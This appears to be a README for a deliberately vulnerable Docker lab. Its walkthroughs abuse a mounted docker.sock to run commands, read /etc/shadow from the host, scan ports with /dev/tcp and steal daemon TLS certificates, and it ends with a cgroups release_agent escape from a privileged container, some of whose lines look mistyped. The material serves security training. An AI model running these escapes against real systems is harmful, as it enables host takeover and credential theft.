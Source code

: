 # Damn Vulnerable Docker Container

## Getting Started

```
$ docker build --tag dvdc:1.0 .
$ docker run -d --network host -v /var/run/docker.sock:/var/run/docker.sock --name dvdc dvdc:1.0
```

## Exercises

### Docker Sockets

#### Exercise 1: Querying the API

In this exercise, the host's docker.sock will be exposed to the container. To get started, drop into a local shell:
```
docker exec -it dvdc /bin/bash
```

With the exposed socket you can make API calls to query running containers, start new containers, and even break out to the host. In this exercises, try to find out what version of Docker is running using the API.

<details>
    <summary>Walkthrough</summary>
    
    # Check if the docker socket is mounted
    user@66a0d5faa124:/# file /var/run/docker.sock
    /var/run/docker.sock: socket

    # Check if it's writable
    user@66a0d5faa124:~$ ls -l /var/run/docker.sock
    srw-rw---- 1 root users 0 Jul  6 03:24 /var/run/docker.sock
    user@66a0d5faa124:~$ groups
    user users

    # Query the API
    user@66a0d5faa124:/# curl --unix-socket /var/run/docker.sock http://localhost/version
    {"Platform":{"Name":"Docker Engine - Community"},"Components":[{"Name":"Engine","Version":"18.09.6","Details":{"ApiVersion":"1.39","Arch":"amd64","BuildTime":"2019-05-04T02:41:08.000000000+00:00","Experimental":"false","GitCommit":"481bc77","GoVersion":"go1.10.8","KernelVersion":"4.14.116-boot2docker","MinAPIVersion":"1.12","Os":"linux"}}],"Version":"18.09.6","ApiVersion":"1.39","MinAPIVersion":"1.12","GitCommit":"481bc77","GoVersion":"go1.10.8","Os":"linux","Arch":"amd64","KernelVersion":"4.14.116-boot2docker","BuildTime":"2019-05-04T02:41:08.000000000+00:00"}
</details>

#### Exercise 2: Command execution

Now that we know we can query the API via the mounted socket we can use the exposed functionality to execute commands as the container's root user. You can use the `/exec` endpoint to accomplish this.

<details>
    <summary>Walkthrough</summary>

    # Send and execute a command
    user@66a0d5faa124:~$ curl -insecure -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock http://localhost/containers/dvdc/exec -d '{"AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "touch /tmp/success"]}'
    HTTP/1.1 201 Created
    Api-Version: 1.39
    Content-Type: application/json
    Docker-Experimental: false
    Ostype: linux
    Server: Docker/18.09.6 (linux)
    Date: Mon, 06 Jul 2020 06:49:14 GMT
    Content-Length: 74

    {"Id":"dd8dd0cd94b8a3821eaa2b236f1a1c74a60e3c0f17857647f3d1cefc44b40c67"}
    user@66a0d5faa124:~$ curl -insecure -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock http://localhost/exec/dd8dd0cd94b8a3821eaa2b236f1a1c74a60e3c0f17857647f3d1cefc44b40c67/start -d '{}'
    HTTP/1.1 200 OK
    Content-Type: application/vnd.docker.raw-stream
    Api-Version: 1.39
    Docker-Experimental: false
    Ostype: linux
    Server: Docker/18.09.6 (linux)

    user@66a0d5faa124:~$ ls -la /tmp
    total 8
    drwxrwxrwt 1 root root 4096 Jul  6 06:50 .
    drwxr-xr-x 1 root root 4096 Jul  6 06:45 ..
    -rw-r--r-- 1 user user    0 Jul  6 06:50 success
</details>


#### Exercise 3: Reading the host filesystem

Code execution is great, but the API can be abused to create new containers and read the host filesystem. You can use the `/containers/create` endpoint to do this.
<details>
    <summary>Walkthrough</summary>

    # Deploy a new container called "escape", mount the host's filesystem to `/host` and then run `cat /host/etc/shadow`
    curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d'{"Image":"ubuntu:latest","Cmd":["cat", "/host/etc/shadow"],"Mounts":[{"Type":"bind","Source":"/","Target":"/host"}]}' "http://localhost/containers/create?name=escape"

    # Start the container
    curl -XPOST --unix-socket /var/run/docker.sock "http://localhost/containers/escape/start"

    # Read the output of the command
    curl --output - --unix-socket /var/run/docker.sock "http://localhost/containers/escape/logs?stdout=true"

    # Clean up
    curl -XDELETE --unix-socket /var/run/docker.sock "http://localhost/containers/escape"
</details>

#### Exercise 4: Communicating with the Docker Daemon with static docker binaries

Now that you can read the host filesystem you can search for sensitive files. In secure docker environments, the dockerd service uses TLS and requires a client to verify itself with a private key. In this exercise, try to use a docker static binary (found [here](https://download.docker.com/linux/static/stable/)) to connect to the host daemon. If TLS is enforced, use the technique in exercise 3 to read the docker certificates and connect to the host daemon.

<details>
    <summary>Walkthrough</summary>

    # Find the IP address of the host
    user@default:~# ip a
    ... snip ...
    3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
        link/ether 08:00:27:02:66:09 brd ff:ff:ff:ff:ff:ff
        inet 192.168.99.102/24 brd 192.168.99.255 scope global eth1
           valid_lft forever preferred_lft forever
        inet6 fe80::a00:27ff:fe02:6609/64 scope link
           valid_lft forever preferred_lft forever
    ... snip ...
    
    # Find open ports
    user@default:~# for port in {1..65535}; do timeout 1 bash -c "echo > /dev/tcp/192.168.99.102/$port" >& /dev/null && echo "port $port is open"; done
    port 22 is open
    port 2376 is open
    port 32888 is open
    
    # Download docker static binaries
    user@default:~# wget https://download.docker.com/linux/static/stable/x86_64/docker-19.03.0.tgz
    Resolving download.docker.com (download.docker.com)... 13.224.180.114, 13.224.180.65, 13.224.180.2, ...
    Connecting to download.docker.com (download.docker.com)|13.224.180.114|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 63255038 (60M) [application/x-tar]
    Saving to: 'docker-19.03.0.tgz'
    
    docker-19.03.0.tgz                       100%[================================================================================>]  60.32M  5.22MB/s    in 11s
    
    2020-07-06 23:16:21 (5.49 MB/s) - 'docker-19.03.0.tgz' saved [63255038/63255038]
    
    # Try to connect to the host
    user@default:~# ./docker/docker -H 192.168.99.102:2376 version
    Client: Docker Engine - Community
     Version:           19.03.0
     API version:       1.40
     Go version:        go1.12.5
     Git commit:        aeac9490dc
     Built:             Wed Jul 17 18:11:50 2019
     OS/Arch:           linux/amd64
     Experimental:      false
    Get http://192.168.99.102:2376/v1.40/version: net/http: HTTP/1.x transport connection broken: malformed HTTP response "\x15\x03\x01\x00\x02\x02".
    * Are you trying to connect to a TLS-enabled daemon without TLS?
    
    # Try again with tls enabled
    user@default:~# ./docker/docker -H 192.168.99.102:2376 --tls version
    Client: Docker Engine - Community
     Version:           19.03.0
     API version:       1.40
     Go version:        go1.12.5
     Git commit:        aeac9490dc
     Built:             Wed Jul 17 18:11:50 2019
     OS/Arch:           linux/amd64
     Experimental:      false
    The server probably has client authentication (--tlsverify) enabled. Please check your TLS client certification settings: Get https://192.168.99.102:2376/v1.40/version: remote error: tls: bad certificate
    
    # Using the technique shown in the previous exercise, find and read the docker certificates.
    # If you installed docker and docker-machine with brew on macos they might be located under `~/.docker/machine/certs/`
    user@default:~# ./docker/docker -H 192.168.99.102:2376 --tls --tlscert=./ca.pem --tlskey=./ca-key.pem version
    Client: Docker Engine - Community
     Version:           19.03.0
     API version:       1.39 (downgraded from 1.40)
     Go version:        go1.12.5
     Git commit:        aeac9490dc
     Built:             Wed Jul 17 18:11:50 2019
     OS/Arch:           linux/amd64
     Experimental:      false
    
    Server: Docker Engine - Community
     Engine:
      Version:          18.09.6
      API version:      1.39 (minimum version 1.12)
      Go version:       go1.10.8
      Git commit:       481bc77
      Built:            Sat May  4 02:41:08 2019
      OS/Arch:          linux/amd64
      Experimental:     false
</details>

#### Exercise 5: Breaking out

Being able to use the docker binary within the container allows you to more easily enumerate the environment, read the build history of containers deploy, new containers, and fully break out of the compromised container. In this exercise, use what you heave learned to deploy a new, privileged container which mounts the host file system by using the exposed docker daemon. Once deployed, drop into a shell with `docker exec` to interact with the filesystem.

### Privileged Mode

Docker has a special privileged mode which, if enabled with the `--privileged` flag, allows a container to access all host devices and kernel capabilities. This feature can be abused on linux hosts via `cgroups`.

The following is a quick and dirty way of getting out of a privileged k8 pod or docker container by using the cgroups release agent feature ([source](https://twitter.com/_fel1x/status/1151487051986087936))
```
(host) docker run -it --rm --privileged ubuntu:latest bash
(cont)# d=`dirname$(ls -x /s*/fs/c*/*/r* |head -n1)`
(cont)# mkdir -p $d/w
(cont)# echo 1 >$d/w/notify_on_release
(cont)# t=`sed -n's/.*\perdir=\([^,]*\).*/\1/p'/etc/mtab`
(cont)# touch /o
(cont)# echo$t/c >$d/release_agent
(cont)# printf'#!/bin/sh\nps >'"$t/o" >/c
(cont)# chmod +x /c
(cont)# sh -c "echo 0 >$d/w/cgroup.procs"
(cont)# sleep 1
(cont)# cat /o
```

## Resources:
- [Abusing Docker API sockets](https://securityboulevard.com/2019/02/abusing-docker-api-socket/)
- [A Methodology for Penetration Testing Docker Systems](https://www.cs.ru.nl/bachelors-theses/2020/Joren_Vrancken___4593847___A_Methodology_for_Penetration_Testing_Docker_Systems.pdf)
- [Break out the Box](https://github.com/brompwnie/botb)
